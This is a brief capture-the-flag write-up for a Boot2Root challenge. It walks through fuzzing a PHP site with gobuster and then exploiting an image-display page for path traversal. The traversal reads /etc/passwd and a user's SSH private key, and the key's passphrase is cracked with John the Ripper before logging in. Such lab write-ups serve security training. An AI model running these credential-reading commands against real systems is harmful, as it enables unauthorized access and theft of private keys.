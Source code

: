 # The Projects - User
Author: viipz, rvino
## Description
```
**Category: Boot2Root/Educational** (You can ask for hints if you are stuck)

Are you ready to get an initial foothold on this super duper secure machine? You are looking for a text file called `user.txt` located in the home directory of a user. Spin up an instance and see what all the fuzz is about! 

Brute forcing / Fuzzing is allowed on this challenge.

Click [here](https://ctf.equinor.com/ondemand/) for access to the machine. 

```
## How to solve
First thing is to start fuzzing to figure out what type of page we're looking at: this can be done by checking the index page file type by simply testing /index.php

In this case this page is running on php which is usefull when we bruteforce directories with a tool like gobuster / wfuzz where we can specify what file type to look for.
```
gobuster -w [Your_word_list] -u [webpage] -x [file_type]
```
We find a page for displaying images which can be exploited for a path traversal.
```
curl http//webpage/imagedisplaying.php?i=../../../../etc/passwd
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/.ssh/id_rsa > id_rsa (then delete the html part)
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/user.txt
chmod 600 id_rsa
ssh2john id_rsa
john id_rsa --wordlist=rockyou.txt
ssh tom@IP -i id_rsa
```
And thats how you pwn User :)
